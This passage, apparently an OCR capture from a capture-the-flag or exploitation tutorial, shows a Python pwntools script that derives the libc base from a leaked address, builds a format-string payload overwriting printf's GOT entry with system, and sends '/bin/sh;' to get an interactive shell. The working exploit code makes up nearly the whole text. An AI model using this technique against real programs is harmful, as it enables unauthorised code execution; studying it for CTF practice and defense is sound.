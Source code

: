 ```

libc_base = read_addr - libc.dump('read')

system_addr = libc_base + libc.dump('system')

log.success('system addr: ' + hex(system_addr))

log.success('read   addr: ' + hex(read_addr))

## modify printf_got

payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')

## get all the addr

addr = payload[:32]

payload = '%32d' + payload[32:]

offset = (int)(math.ceil(len(payload) / 8.0) + 1)

for i in range(6, 10):

    old = '%{}$'.format(i)

    new = '%{}$'.format(offset + i)

    payload = payload.replace(old, new)

remainer = len(payload) % 8

payload += (8 - remainer) * 'a'

payload += addr

sh.sendline(payload)

sh.recv()



## get shell

sh.sendline('/bin/sh;')

sh.interactive()

```



What needs to be noted here is this code.
